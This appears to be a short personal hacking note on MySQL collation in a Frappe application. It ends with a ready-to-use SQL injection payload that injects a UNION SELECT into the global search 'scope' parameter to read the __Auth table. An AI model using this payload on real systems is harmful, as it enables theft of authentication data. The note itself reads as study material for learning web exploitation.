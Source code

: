 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/mysql/collation-my-sql/","noteIcon":"","created":"2025-04-15T14:11:19.606-04:00"}
---
```


















Find out the collation of the columns in the __global_search table. 
Check for `utf8mb4_general_ci`

there are collations like "utf8mb4_general_ci" that are case-insensitive (indicated by the "ci" at the end of the collation name). These collations will not take the case into consideration when comparing values

```
SELECT COLLATION_NAME 
FROM information_schema.columns 
WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name";
```

![](https://i.imgur.com/l5sygaS.png)


The final payload
```
cmd=frappe.utils.global_search.web_search&text=text_test&scope=testscope" union select 1,2,3,4, name COLLATE utf8mb4_general_ci FROM __Auth#
```
![](https://i.imgur.com/NdmDO0p.png)
